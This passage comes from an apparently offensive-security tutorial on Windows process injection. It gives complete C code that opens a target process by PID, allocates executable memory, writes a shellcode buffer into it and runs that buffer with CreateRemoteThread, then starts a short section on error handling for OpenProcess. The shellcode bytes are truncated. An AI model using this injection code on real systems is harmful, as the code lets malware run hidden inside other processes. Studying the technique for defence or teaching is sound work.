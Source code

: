 {% code title="ProcessInjection.c" fullWidth="false" %}
```c
#include <Windows.h>
#include <stdio.h>

unsigned char shellcode[] =
"\xeb\x27....";

int main(int argc, char* argv[]) {
	
	if (argc < 2) {
		printf("[*] Usage: %s <PID> ", argv[0]);
		return 0;
	}
	
	DWORD		PID = NULL;
	PVOID		pAddress;
	HANDLE		hProcess = NULL,
		hThread = NULL;

	PID = atoi(argv[1]);
	printf("Getting Handle to the Process with PID: %d\n", PID);

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	pAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, pAddress, shellcode, sizeof(shellcode), 0);
	hThread = CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL);
	WaitForSingleObject(hThread, INFINITE);
	
	return 0;
}


```
{% endcode %}

### Error Handling

It is important to handle errors properly and also this helps us to debug things and understand the actual problem we have in case we face any kind of error. Here we see the MSDN document for [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) which helps us gain insight on what to expect when calling the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function.\


<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><em>MSDN document for OpenProcess</em></p></figcaption></figure>
